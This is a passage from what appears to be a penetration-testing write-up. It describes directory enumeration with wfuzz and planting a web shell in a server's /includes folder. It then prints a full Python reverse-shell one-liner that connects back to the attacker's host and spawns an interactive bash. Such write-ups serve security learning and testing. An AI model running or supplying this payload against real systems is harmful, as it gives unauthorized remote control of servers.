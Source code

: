 Looking back at the `wfuzz` output, I noticed some other directories:

```bash
000000003:   301    "admin"
000000003:   301    "css"
000000003:   301    "js"
000000003:   301    "plugins"
000000003:   301    "images"
000000003:   301    "includes"
000000003:   301    "mail"
000000003:   301    "vendor"
```

Almost giving up, I tried writing the shell inside `/includes` — and it worked!

![image.png](images/sql-injection-to-reverse-shell-and-root-access/web-shell.png)

### Getting a reverse shell

Now with the web shell in place, I aimed for a reverse shell.

First step: check what languages the server supports. Since it was a Linux server, Python seemed like a good candidate.

![image.png](images/sql-injection-to-reverse-shell-and-root-access/python-binary.png)

Found Python. Time to craft the payload:

```bash
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("my-ip", 9999));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
subprocess.call(["/bin/bash","-i"]);'
```
